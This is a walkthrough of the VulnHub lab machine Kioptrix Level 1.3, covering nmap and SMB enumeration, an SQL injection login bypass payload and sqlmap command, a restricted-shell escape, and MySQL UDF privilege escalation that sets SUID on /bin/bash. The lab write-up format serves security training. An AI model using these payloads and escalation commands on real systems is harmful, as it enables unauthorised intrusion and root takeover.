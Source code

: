 # Kioptrix: Level 1.3 (#4)

https://www.vulnhub.com/entry/kioptrix-level-13-4,25/

We do a netdiscover to find `http://192.168.1.94/`


```
root@kali:~# nmap -sV 192.168.1.94

Starting Nmap 7.60 ( https://nmap.org ) at 2017-09-30 02:26 BST
Nmap scan report for Unknown-00-0c-29-fb-b8-ca.home (192.168.1.94)
Host is up (0.00034s latency).
Not shown: 566 closed ports, 430 filtered ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
80/tcp  open  http        Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
MAC Address: 00:0C:29:FB:B8:CA (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 209.17 seconds
```
## SQL injection

We see that `enum4linux 192.168.1.94` gives us several usernames and we can `smbclient -L 192.168.1.94` to find any shared resources. We can then sql inject the website by using one of the following usernames and `1' or '1'='1` e.g. `john:1' or '1'='1`. We could have also used `sqlmap -u "http://192.168.1.94/checklogin.php" --dbms=MySQL  --data="myusername=username&mypassword=password" --dbs` Now we can ssh to it and find a restricted shell. We can break out of it by performing `echo os.system('/bin/bash')`.

## Privilege Escalation - MySQL UDF

Now in terms of the privilege escalation, when we check the files, we should check processes and check what is running under root. This could allow us to perform an exploit.

Note: `cat /var/www/checklogin.php` to find root password

```
mysql> use mysql;
mysql> create function sys_exec returns integer soname 'lib_mysqludf_sys.so';
mysql> select sys_exec('chmod u+s /bin/bash');

or (we can give John admin privileges)

mysql> select sys_exec('usermod -a -G admin john'); 
```
